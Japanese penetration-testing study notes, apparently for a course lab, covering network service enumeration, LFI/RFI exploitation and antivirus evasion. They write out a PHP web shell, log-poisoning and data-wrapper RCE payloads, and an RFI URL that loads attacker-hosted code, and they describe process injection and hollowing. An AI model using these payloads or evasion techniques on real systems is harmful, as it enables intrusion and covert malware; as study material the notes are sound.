最近のSMBの実装ではNetBIOSがなくても動作するが、NetBIOS over TCP(NBT)は後方互換性のために必要で、ともに有効になっている場合が多い。このt前、2つのサービスの列挙は一緒に行われる。
kali@kali:~$ nmap -v -p 139,445 -oG result.txt 10.10.10.1
NetBIOS情報を特定するための専門的ツール。オプション-rを使用することで発信元のUDPポートを137に指定している。
kali@kali:~$ sudo nbtscan -r 10.11.1.0/24
Nmap NES Scriptsのディレクトリ(SMB):
/usr/share/nmap/scripts
SMBによるOSの検出や列挙(smb-os-discovery):
kali@kali:~$ nmap -v -p 139, 445 --script=smb-os-discovery 10.11.1.227
SMBプロトコルの既知の脆弱性をチェックする場合:
(unsafe=1にした場合、脆弱なシステムをクラッシュさせてしまう可能性があるので、本番システムをスキャンする場合は注意)
kali@kali:~$ nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.10.10.1
Network File System(NFS)はクライアントコンピュータのユーザがあたかもローカルにマウントされたストレージ上にあるかのようにファイルにアクセスすることを可能にする。
NFSはUNIX系OSで使用されることが多く、その実装は安全ではない。
NFSで使用されるPortmapperとRPCbindはともにTCPポート111で動作する。
kali@kali:~$ nmap -v -p 111 10.10.10.1
kali@kali:~$ nmap -sV -p 111 --script=rpcinfo 10.10.10.1
NFSが動作していることが分かった場合/usr/share/nmap/scriptsにあるNSEスクリプトを使用して、サービスの列挙や追加サービスの発見を行うことができる。「*」を使用することで、まとめて使用することができる。
kali@kali:~$ ls -1 /usr/share/nmap/scripts/nfs*
/usr/share/nmap/scripts/nfs-ls.nse
/usr/share/nmap/scripts/nfs-showmount.nse
/usr/share/nmap/scripts/nfs-statfs.nse
kali@kali:~$ nmap -p 111 --script nfs* 10.11.1.72
mountコマンドを使用することでファイルのアクセスできるようになる。
オプション-o nolockでファイルロックを無効にする。
kali@kali:~$ mkdir test
kali@kali:~$ sudo mount -o nolock 10.11.1.72:/home ~/test/
kali@kali:~$ cd test/ && ls
jenny joe45 john marcus ryuu
nc -vn 10.10.10.1 25
nmap -p 25 --script smtp-commands 10.10.10.10
| コマンド | 動作 |
|---|---|
| VERY | サーバに電子メールアドレスの確認を要求 |
| EXPN | サーバにメーリングリストの資格を要求 |
SNMPはルータ、スイッチ、サーバなどのTCP/IPネットワークに接続された通信機器に対して、ネットワーク経由で監視、制御するためのUDPベースのアプリケーション層プロトコル。
SNMP1,2,2cではトラフィックの暗号化が行われていないため、SNMP情報や認証情報をローカルネットワーク上で傍受することができてしまう。
MIBはネットワーク管理に関連する情報を含むデータベースのことでツリー上になっている。
その下にSNMPコミュニティと呼ばれるSNMPで管理するネットワークシステムの範囲を定めたものがある。
kali@kali:~$ sudo nmap -sU --open -p 161 10.11.1.1-254 -oG open-snmp.txt
kali@kali:~$ snmpwalk -c public -v1 -t 10 10.10.10.1
iso.3.6.1.2.1.1.1.0 = STRING: "Hardware: x86 Family 6 Model 12 Stepping 2 AT/AT COMPAT
IBLE - Software: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.311.1.1.3.1.1
iso.3.6.1.2.1.1.3.0 = Timeticks: (2005539644) 232 days, 2:56:36.44
iso.3.6.1.2.1.1.4.0 = ""
kali@kali:~$ snmpwalk -c public -v1 10.10.10.1 1.3.6.1.4.1.77.1.2.25
iso.3.6.1.4.1.77.1.2.25.1.1.3.98.111.98 = STRING: "bob"
iso.3.6.1.4.1.77.1.2.25.1.1.5.71.117.101.115.116 = STRING: "Guest"
iso.3.6.1.4.1.77.1.2.25.1.1.8.73.85.83.82.95.66.79.66 = STRING: "IUSR_BOB"
kali@kali:~$ snmpwalk -c public -v1 10.10.10.1 1.3.6.1.2.1.25.4.2.1.2
iso.3.6.1.2.1.25.4.2.1.2.1 = STRING: "System Idle Process"
iso.3.6.1.2.1.25.4.2.1.2.4 = STRING: "System"
iso.3.6.1.2.1.25.4.2.1.2.224 = STRING: "smss.exe"
iso.3.6.1.2.1.25.4.2.1.2.324 = STRING: "csrss.exe"
iso.3.6.1.2.1.25.4.2.1.2.364 = STRING: "wininit.exe"
iso.3.6.1.2.1.25.4.2.1.2.372 = STRING: "csrss.exe"
iso.3.6.1.2.1.25.4.2.1.2.420 = STRING: "winlogon.exe"
kali@kali:~$ snmpwalk -c public -v1 10.11.1.14 1.3.6.1.2.1.6.13.1.3
iso.3.6.1.2.1.6.13.1.3.0.0.0.0.21.0.0.0.0.18646 = INTEGER: 21
iso.3.6.1.2.1.6.13.1.3.0.0.0.0.80.0.0.0.0.45310 = INTEGER: 80
iso.3.6.1.2.1.6.13.1.3.0.0.0.0.135.0.0.0.0.24806 = INTEGER: 135
iso.3.6.1.2.1.6.13.1.3.0.0.0.0.443.0.0.0.0.45070 = INTEGER: 443
kali@kali:~$ snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2
iso.3.6.1.2.1.25.6.3.1.2.1 = STRING: "LiveUpdate 3.3 (Symantec Corporation)"
iso.3.6.1.2.1.25.6.3.1.2.2 = STRING: "WampServer 2.5"
iso.3.6.1.2.1.25.6.3.1.2.3 = STRING: "VMware Tools"
iso.3.6.1.2.1.25.6.3.1.2.4 = STRING: "Microsoft Visual C++ 2008 Redistributable - x86
9.0.30729.4148"
iso.3.6.1.2.1.25.6.3.1.2.5 = STRING: "Microsoft Visual C++ 2012 Redistributable (x86)
Nessusの使い方
sudo nmap --script vuln 10.10.10.1
悪用をする前に、Webアプリケーションを構成するコンポーネントを特定することが重要。
dirb http://website.com -r -z 10
< > ' " { } ;
攻撃者がアプリケーション内の、通常はWebインタフェースを介してアクセスできないファイルに不正にアクセスすることが出きてしまう脆弱性。
http://test.com/menu.php?file= のような形式になっているサイトでディレクトリパスを入力することで通常閲覧することができないディレクトリを見ることができる。
単にファイルの内容を表示するディレクトリトラバーサルとは異なり、ファイルインクルージョンの脆弱性では、攻撃者がアプリケーションの実行コードにファイルをインクルードすることができる。
LFI(ロカールファイルインクルージョン)はインクルードされたファイルが同じWebサーバからロードされる場合に発生する。
RFI(リモートファイルインクルージョン)は、ファイルが外部から読み込まれた場合に発生する。
通常、これらの脆弱性はPHPアプリケーションでよく見られ、これらの脆弱性の悪用はアプリケーション側で書かれているプログラミング言語とサーバーの設定に依存する。特にPHPの場合、言語ランタイムのバージョンとWebサーバの設定、register_globalsやallow_urlラッパーなどのphp.iniの値よってこれらの脆弱性がどのように悪用されるか変化する。
ローカルファイルにPHPコードを書き込むことができれば、この脆弱性を使用してリモートコード実行までいける可能性が出てくる。この一つの方法としてログファイルポイズニングがある。ほとんどのアプリケーションサーバはリクエストされた全てのURLを記録する。これを利用してログファイルに任意のコードが実行できるようなコードを埋め込んでみる。
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
HTTP/1.1 400 Bad Request
Bad Requestが発生するものの、ログファイル上に書き込まれることが確認できる。 そして下記のコードを実行することで、任意のコードが実行可能である。(今回の場合ipconfigコマンド)
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
このようにログファイルポイズニングを行うことで、リモートでコードを実行できる可能性がある。
リモートファイルインクルード(RFI)の脆弱性はサーバーが非常に特殊な方法で構成されていなければならないため、LFIに比べると一般的ではないが、悪用するのは非常に簡単。
これを利用するためにはPHPアプリではallow_url_includeが「オン」に設定されている必要があり、古いバージョンのPHPではデフォルトでこの設定がオンになっているが、新しいバージョンではデフォルトでオフになっている。
http://10.10.10.1/menu.php?file=http://10.10.10.2/test.txt
LFIと同じ内容でエクスプロイトを行うには下記のようにすればよい。
kali@kali:/var/www/html$ cat test.txt
<?php echo shell_exec($_GET['cmd']); ?>
kali@kali:/var/www/html$ sudo systemctl restart apache2
http://10.10.10.1/menu.php?file=http://10.10.10.2/test.txt&cmd=ipconfig
また、kaliには/usr/share/webshellsにwebshellがあるので、それを参照させることで、さらに簡単に任意のコマンドを実行させることが可能である。
phpのデータラッパーを利用することで、LFI攻撃に対して脆弱性を持つ場合、リモートでコードを実行することが可能である。
http://10.10.10.1/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
SQLインジェクションはサニタイズされていないユーザーの入力が挿入され、データベースに渡されて実行されることによって引き起こされる。
MySQLやMariaDBなどを対象とする。
+----+------------+--------------+
| id | username | password |
SELECT * From users;
上記のコマンドはuserテーブルの全てのカラム(列)とレコード(行)を表示する。という意味になる。 
SELECTコマンドの最初の引数はカラム(列)となっており、アスタリスクは「すべて」を表す特別な文字。
SELECT username FROM users WHERE id=1;
上記のコマンドではusersテーブルのusernameカラム(列)でidが1のレコード(行)を表示する。という意味になる。
p323~ SQLインジェクションの特定、認証バイパス
アンチウイルスのシグネチャとは、マルウェアを一意に識別する、マルウェア内の連続したバイト列のこと。
ほとんどの場合、ファイルシステムに基地のマルウェアのシグネチャがないかスキャンし、検出された場合問題のあるファイルを隔離する。このことから適切なツールを使用すれば、この検知方法を採用しているアンチウイルスソフトウェアを簡単に回避すること
ができる。
具体的な方法として、既知の悪意のあるファイルの内容を変更または難読化して、識別用のバイトシーケンスを解読することで、シグネチャベースの検地を回避することができる。(バイトシーケンスとはバイト+シーケンスの意味，バイトは情報の単位でシーケンスは連続を意味する)
ウイルス対策ソフトの種類や品質にもよるが、バイナリファイル内のいくつかの無害な文字列を大文字から小文字に変更するだけで、ウイルス対策ソフトを回避できる場合もある。
ウイルス対策ソフトのベンダーは、異なるシグネチャや独自の技術を用いてマルウェアを検出し、各ベンダーは常にデータベースを更新しているため、すべてを網羅したウイルス対策回避のソリューションおｗ考えることは通常困難である。
シグネチャベースの検地の落とし穴に対処するため、アンチウイルスメーカーは製品の有効性を高めるために追加の検地方法を導入した。
ヒューリスティックベースの検知は、様々なルールやアルゴリズムに依存して、あるアクションが悪意のあるものとみなされるかどうかを判断する検知方法である。
これはバイナリファイルの命令セットをステップ実行したり、ソースコードを逆コンパイルして解析したりすることで実現されていることが多く、単純なバイトシーケンスではなく様々なパターンのプログラムコールを探すというものである。
一方ビヘイビアベースの検出は、バイナリファイルの動作を動的に分析する。これは多くの場合、仮想マシンなどのエミュレートされた環境で問題のファイルを実行し、悪意があると考えられる動作やアクションを探すことで実現されている。
これらの技術はマルウェアのシグネチャを必要としないため、未知のマルウェアや既知のマルウェアのバリエーションをより効果的に識別するために使用することができる。ヒューリスティックとビヘイビアの検出に関しては、ウイルス対策メーカーによって実装が異なるためどのようなコードを悪意のあるものとみなすかは、各ウイルス対策製品によって異なる。
注意すべきは、大多数のアンチウイルス開発者は、より高い検出率を達成するために、これらの検出方法を組み合わせて使用しているということだ。
まとめ
一般的にアンチウイルスの会費はディスク上とメモリ上の2つの大きなカテゴリに分類される。
オンディスクでの回避は、アンチウイルスの検地を回避するために、ディスク上に物理的に保存されている悪意のあるファイルを変更することに焦点を当てている。(packerなど)
パッカーは実行ファイルのサイズを単純に縮小するために設計された。
zipの圧縮技術とは異なり、パッカーは実行ファイルのサイズを小さくするだけでなく完全に新しいバイナリ構造で機能的に同等のものを生成する。このように生成されたファイルには新しい署名が付与され、旧来のAVスキャナを効果的に回避することができる。しかし、最新のAVスキャナを回避するには不十分。
難読化技術は、リバースエンジニアリングが困難になるようにコードを再編成したり、変異させたりする。
これには意味的に等価な命令への置き換え、無関係の命令や「デッドコード」の挿入、関数の分割や並べ替えなどがある。
実行可能なコードを暗号化し、実行時に元のコードを復元する複合化スタブを追加する。この複合化はメモリ上で行われ、暗号化されたコードだけがディスク上に残る。暗号化は最新のマルウェアにおいて、最も効果的なAV回避技術の一つとして定着している。
ほとんどの場合ソフトウェアプロテクターは正当な目的のために設計されているが、AVの検出を回避するために使用することもできる。 これらの技術の多くは、非常に複雑なため許容できるアンチウイルス回避機能を備えた積極的にメンテナンスされている無料ツールはほとんどなく、市販のツールであればThe Enigma Protectorが有望。
この技術は悪意のあるバイナリを難読化したり、既存の権限を変更したりするのではなく、揮発性メモリを操作することに重点を置いている。これのメリットの一つはほとんどのアンチウイルス製品が重視するディスクへのファイルの書き込みがないことである。C/C++などの言語による低レベルプログラミングに依存するものも多いため、ここではpowershellに着目したものを説明する。
悪意のない別の有効なPEにペイロードを注入しようとするもの。これを実現するためのは一連のWindows APIを活用して行う。
手法:OpenProcess関数を使用してアクセス権限のあるターゲットプロセスへの有効なHANDLEを取得。取得後、VirtualAllocExなどのWindows APIを呼び出して、そのプロセスのコンテキストでメモリを割り当てる。
ペイロードが正常にコピーされた後、CreateRemoteThread APIを使用して別のスレッドでメモリ内で実行させる。
LoadLibrary APIを使用して、ディスクから悪意のあるDLLをロードすることを意味する通常のDLLインジェクションとは異なり、この手法では 攻撃者がプロセスメモリに保存したDLLをロードしようとしる。この手法を実装するうえでの主な課題は、LoadLibraryがメモリからのDLLのロードをサポートしていないことで、このテクニックを使用する場合は攻撃者自身がディスクベースのDLLに依存しない独自のバージョンのAPIを記述する必要がある。
悪意のないプロセスをサスペンド状態で起動し、起動するとそのプロセスのイメージがメモリから削除され、悪意のある実行ファイルのイメージに置き換えられる。最後にプロセスが再開され、正規のプロセスの代わりに悪意のあるコードが実行される。
メモリを改変して関数にフック(コードの実行をリダイレクトする命令)を導入し、実行フローをことらの悪意のあるコードに向けさせる手法。悪意のあるコードを実行するとｍフローは修正された関数に戻り、実行を再開し、あたかも元のコードだけが実行されたかのように見せかける。